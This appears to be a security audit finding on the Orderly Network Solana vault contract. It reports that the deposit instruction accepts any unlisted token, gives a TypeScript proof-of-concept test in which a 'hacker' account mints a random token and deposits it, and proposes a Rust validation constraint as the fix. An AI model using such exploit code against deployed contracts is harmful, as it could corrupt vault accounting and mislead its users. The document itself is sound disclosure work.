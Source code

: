 Immense Rouge Goose

High

# Invalid Tokens are allowed to be deposited into the Vault

### Summary

Any User can deposit any arbitrary token and the program will not invalidate such deposit

### Root Cause

There is Insufficient token validation in [`deposit.rs`](https://github.com/sherlock-audit/2024-09-orderly-network-solana-contract/blob/main/solana-vault/packages/solana/contracts/programs/solana-vault/src/instructions/vault_instr/deposit.rs#L89)

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

Any User Can call `deposit` token to deposit any unlisted token

### Impact

This could trigger an event that some tokens(whitelisted) were deposited but in reality, the wrong tokens were deposited

### PoC

Add
```typescript
const hacker = await Keypair.generate();
await provider.connection.confirmTransaction(await provider.connection.requestAirdrop(hacker.publicKey, 10 * LAMPORTS_PER_SOL), "confirmed");
        
const RANDOM_MINT = await createMint(
    provider.connection,
    hacker,
    hacker.publicKey,
    null,
    6, // USDC has 6 decimals
    Keypair.generate(),
    confirmOptions
);
const hackerRandomTokenAccount = await getAssociatedTokenAddressSync(RANDOM_MINT, hacker.publicKey, true, TOKEN_PROGRAM_ID);
const vaultRandomTokenAccount = await getOrCreateAssociatedTokenAccount(provider.connection, hacker, RANDOM_MINT, vaultAuthorityPda, true);

await createAccount( // creates hacker token account
    provider.connection,
    hacker,
    RANDOM_MINT,
    hacker.publicKey,
    undefined,
    undefined,
    TOKEN_PROGRAM_ID
);

await mintUsdcTo(
    provider.connection, hacker, hacker, RANDOM_MINT, hackerRandomTokenAccount, 9e9
)
const previousRandomVaultBalance = await getTokenBalance(provider.connection, vaultRandomTokenAccount.address)
const previousRandomUserBalance = await getTokenBalance(provider.connection, hackerRandomTokenAccount)

        await program.methods
            .deposit({
                accountId: Array.from(wallet.publicKey.toBytes()),
                brokerHash: brokerHash,
                tokenHash: tokenHash,
                userAddress: Array.from(wallet.publicKey.toBytes()),
                tokenAmount: new BN(4e9),
            },{
                nativeFee: new BN(1000),
                lzTokenFee: new BN(0)
            })
            .accounts({
                user: hacker.publicKey,
                userTokenAccount: hackerRandomTokenAccount,
                vaultAuthority: vaultAuthorityPda,
                vaultTokenAccount: vaultRandomTokenAccount.address,
                depositToken: RANDOM_MINT,
                peer: peerPda,
                enforcedOptions: efOptionsPda,
                oappConfig: oappPda,
                allowedBroker: allowedBrokerPda,
                allowedToken: allowedTokenPda,
                tokenProgram: TOKEN_PROGRAM_ID,
                associatedTokenProgram: ASSOCIATED_TOKEN_PROGRAM_ID,
                systemProgram: SystemProgram.programId
            })
            .remainingAccounts([
                {
                    pubkey: endpointProgram.programId,
                    isWritable: true,
                    isSigner: false,
                },
                {
                    pubkey: oappPda, // signer and sender
                    isWritable: true,
                    isSigner: false,
                },
                {
                    pubkey: ulnProgram.programId,
                    isWritable: true,
                    isSigner: false,
                },
                {
                    pubkey: sendLibraryConfigPda,
                    isWritable: true,
                    isSigner: false,
                },
                {
                    pubkey: defaultSendLibraryConfigPda,
                    isWritable: true,
                    isSigner: false,
                },
                {
                    pubkey: messageLibInfoPda,
                    isWritable: true,
                    isSigner: false,
                },
                {
                    pubkey: endpointPda,
                    isWritable: true,
                    isSigner: false,
                },
                {
                    pubkey: noncePda, // nonce
                    isWritable: true,
                    isSigner: false,
                },
                {
                    pubkey: eventAuthorityPda,
                    isWritable: true,
                    isSigner: false,
                },
                {
                    pubkey: endpointProgram.programId,
                    isWritable: true,
                    isSigner: false,
                },
            ]).signers([hacker])
            .rpc(confirmOptions)
const newHackerBalance = await getTokenBalance(provider.connection, hackerRandomTokenAccount)
assert.equal(newHackerBalance, previousRandomUserBalance - 4e9,"Shitty Tokens Deposited From User's Account")

const newVaultRandomBalance = await getTokenBalance(provider.connection, vaultRandomTokenAccount.address)
assert.equal(newVaultRandomBalance, previousRandomVaultBalance + 4e9, "Vault Accepted Shitty Tokens")

```
to [`deposit_test_suite`](https://github.com/sherlock-audit/2024-09-orderly-network-solana-contract/blob/main/solana-vault/packages/solana/contracts/tests/01_messaging.test.ts#L566)

### Mitigation

Perform proper Validation in [`deposit.rs`](https://github.com/sherlock-audit/2024-09-orderly-network-solana-contract/blob/main/solana-vault/packages/solana/contracts/programs/solana-vault/src/instructions/vault_instr/deposit.rs) and [`lz_receive.rs`](https://github.com/sherlock-audit/2024-09-orderly-network-solana-contract/blob/main/solana-vault/packages/solana/contracts/programs/solana-vault/src/instructions/oapp_instr/oapp_lz_receive.rs)
by adding

```rust
    #[account(
        seeds = [TOKEN_SEED, deposit_params.token_hash.as_ref()],
        bump = allowed_token.bump,
        constraint = allowed_token.allowed == true 
            && (allowed_token.mint_account == deposit_token.key() ||
                oapp_config.usdc_mint == deposit_token.key()
               ) @ VaultError::TokenNotAllowed 
    )]
    pub allowed_token: Box<Account<'info, AllowedToken>>,
```